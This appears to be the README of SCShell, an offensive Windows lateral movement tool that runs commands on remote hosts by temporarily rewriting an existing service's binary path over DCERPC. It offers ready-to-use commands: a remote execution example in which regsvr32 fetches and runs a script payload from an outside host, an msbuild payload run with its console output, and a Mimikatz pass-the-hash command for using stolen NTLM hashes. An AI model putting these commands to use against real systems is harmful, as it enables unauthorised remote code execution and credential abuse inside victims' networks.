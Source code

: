 # SCShell

SCShell is a fileless lateral movement tool that relies on ChangeServiceConfigA to run commands. The beauty of this tool is that it does not perform authentication against SMB. Everything is performed over DCERPC.

The utility can be used remotely WITHOUT registering a service or creating a service. It also doesn't have to drop any file on the remote system* (Depend on the technique used to execute)

# How it work

Instead of creating a service it simply remotely open a service and modify the binary path name via the `ChangeServiceConfigA` API.

Then it starts the service.

Once the execution is completed the service binary path is reverted to the original one. The original service path is extracted using `QueryServiceConfigA`.

Everything is happening over DCERPC including the authentication.

![network](https://raw.githubusercontent.com/Mr-Un1k0d3r/SCShell/master/network.png)



# Usage

The current build is written in `C` but I will port it to `C#` and `PowerShell`.

```
Usage:
SCShell.exe target service payload domain username password
```

`target` can be set to `local` to run the payload locally

Remote execution
```
SCShell.exe 192.168.197.131 XblAuthManager "C:\windows\system32\cmd.exe /c C:\windows\system32\regsvr32.exe /s /n /u /i://your.website/payload.sct scrobj.dll" . administrastor Password
```

I recommend using `C:\windows\system32\cmd.exe /c` to make sure to payload will not be killed once the service stop. You NEED to use the full path.

You can also use a msbuild payload
```
SCShell.exe 192.168.197.131 XblAuthManager "C:\windows\system32\cmd.exe /C C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe C:\payload.csproj" . administrator Password
SCShell ***
Trying to connect to 192.168.197.131
Username was provided attempting to call LogonUserA
SC_HANDLE Manager 0x009ED250
Opening XblAuthManager
SC_HANDLE Service 0x009ED1B0
Service path was changed to C:\windows\system32\cmd.exe /C C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe C:\payload.csproj
Service was started.
```

I'm using the XblAuthManager as the target which is the Xbox Accessory Management Service

# Passing the Hash

You can use the utility to pass the hash. By default the current process token will be used. You can set the current process token using standard pass the hash approach.

On the local system
```
sekurlsa::pth /user:user /domain:domain /ntlm:hash /run:cmd.exe
```

Then run the SCShell.exe within the newly created cmd.exe.

# Compiling from source

The code was compiled on Windows using GCC Mingw compiler

# Credit
Mr.Un1k0d3r RingZer0 Team

Tazz0 for the moral support
